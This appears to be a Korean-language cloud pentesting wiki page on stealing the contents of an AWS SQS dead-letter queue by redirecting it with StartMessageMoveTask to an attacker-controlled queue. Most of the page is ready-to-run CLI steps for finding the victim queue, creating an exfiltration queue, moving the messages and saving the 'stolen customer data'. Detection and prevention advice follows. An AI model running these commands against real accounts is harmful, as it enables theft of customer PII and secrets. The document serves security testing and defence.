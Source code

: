 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../../banners/hacktricks-training.md}}

## 설명

SQS 메시지 이동 작업을 악용하여 `sqs:StartMessageMoveTask`를 사용해 피해자의 Dead-Letter Queue (DLQ)에 누적된 모든 메시지를 공격자 제어 큐로 리디렉션해 탈취합니다. 이 기법은 AWS의 합법적인 메시지 복구 기능을 악용하여 DLQ에 오랜 기간 쌓인 민감한 데이터를 exfiltrate합니다.

## Dead-Letter Queue (DLQ)란?

Dead-Letter Queue는 주요 애플리케이션에서 메시지 처리에 실패했을 때 자동으로 전송되는 특수한 SQS 큐입니다. 이러한 실패한 메시지에는 종종 다음이 포함됩니다:
- 처리되지 못한 민감한 애플리케이션 데이터
- 오류 세부 정보 및 디버깅 정보
- 개인 식별 정보(PII)
- API 토큰, 자격 증명 또는 기타 비밀
- 비즈니스 중요 거래 데이터

DLQ는 실패한 메시지의 '묘지' 역할을 하므로, 애플리케이션이 제대로 처리하지 못해 시간이 지남에 따라 민감한 데이터가 누적되기 때문에 가치 있는 표적이 됩니다.

## 공격 시나리오

**실제 사례 예시:**
1. **E-commerce application**이 SQS를 통해 고객 주문을 처리함
2. **일부 주문이 실패**함(결제 문제, 재고 문제 등)으로 DLQ로 이동
3. **DLQ에 수주/수개월치의 실패한 주문이 누적**되어 고객 데이터 포함: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **공격자가 SQS 권한을 가진 AWS 자격 증명을 탈취**
5. **공격자가 DLQ에 수천 건의 실패한 주문과 민감한 데이터가 있음을 발견**
6. **개별 메시지 접근을 시도하는 대신**(느리고 눈에 띔), 공격자는 `StartMessageMoveTask`를 사용해 모든 메시지를 자신의 큐로 일괄 전송
7. **공격자가 한 번의 작업으로** 모든 과거 민감 데이터를 추출

## 요구 사항
- 소스 큐는 DLQ로 구성되어 있어야 함(적어도 하나의 큐 RedrivePolicy에 참조되어야 함).
- IAM 권한(침해된 피해자 주체로 실행):
- DLQ(소스)에 대해: `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- 대상 큐에 대해: 메시지 전달 권한(예: 피해자 주체로부터의 `sqs:SendMessage`를 허용하는 큐 정책). 동일 계정 내 대상의 경우 일반적으로 기본적으로 허용됨.
- SSE-KMS가 활성화된 경우: 소스 CMK에 대해 `kms:Decrypt`, 대상 CMK에 대해 `kms:GenerateDataKey`, `kms:Encrypt`.

## 영향
**잠재적 영향**: 네이티브 SQS API를 사용하여 DLQ에 누적된 민감한 페이로드(실패한 이벤트, PII, 토큰, 애플리케이션 페이로드 등)를 고속으로 exfiltrate할 수 있음. 대상 큐 정책이 피해자 주체로부터의 `SendMessage`를 허용하면 교차 계정에서도 작동함.

## 악용 방법

- 피해자 DLQ ARN을 식별하고 해당 큐가 실제로 어떤 큐에 의해 DLQ로 참조되고 있는지 확인합니다(어떤 큐든 상관없음).
- 공격자 제어 대상 큐를 생성하거나 선택하고 해당 큐의 ARN을 확보합니다.
- 피해자 DLQ에서 대상 큐로 메시지 이동 작업을 시작합니다.
- 진행 상황을 모니터링하거나 필요한 경우 취소합니다.

### CLI 예시: E-commerce DLQ에서 고객 데이터 Exfiltrating

**시나리오**: 공격자가 AWS 자격 증명을 탈취했고, 전자상거래 애플리케이션이 실패한 고객 주문 처리 시도를 포함한 DLQ를 사용하는 SQS를 사용하고 있음을 발견함.

1) **피해자 DLQ 찾기 및 조사**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **attacker-controlled destination queue 생성**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **bulk message theft를 실행**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **탈취한 민감한 데이터 수집**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### 계정 간 주의사항
- 대상 큐는 피해자 principal이 `sqs:SendMessage`를 수행할 수 있도록 허용하는 리소스 정책을 가져야 합니다(사용하는 경우 KMS grants/permissions 포함).

## 왜 이 공격이 효과적인가

1. **정상적인 AWS 기능**: 내장된 AWS 기능을 사용하므로 악의적 활동으로 탐지되기 어려움  
2. **대량 작업**: 개별적으로 느리게 접근하는 대신 수천 개의 메시지를 빠르게 전송  
3. **이력 데이터**: DLQs는 몇 주/몇 달에 걸쳐 민감한 데이터를 축적함  
4. **눈에 띄지 않음**: 많은 조직이 DLQ 접근을 면밀히 모니터링하지 않음  
5. **계정 간 가능**: 권한이 허용되면 공격자의 AWS 계정으로 exfiltrate 할 수 있음

## 탐지 및 방지

### 탐지
의심스러운 `StartMessageMoveTask` API 호출을 CloudTrail에서 모니터링하십시오:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### 예방
1. **최소 권한 원칙**: `sqs:StartMessageMoveTask` 권한을 필요한 역할로만 제한
2. **DLQs 모니터링**: 비정상적인 DLQ 활동에 대해 CloudWatch 경보 설정
3. **교차 계정 정책**: 교차 계정 액세스를 허용하는 SQS 큐 정책을 신중히 검토
4. **DLQs 암호화**: SSE-KMS를 제한된 키 정책과 함께 사용
5. **정기적인 정리**: 민감한 데이터가 DLQs에 무기한 쌓이지 않도록 함

{{#include ../../../../banners/hacktricks-training.md}}
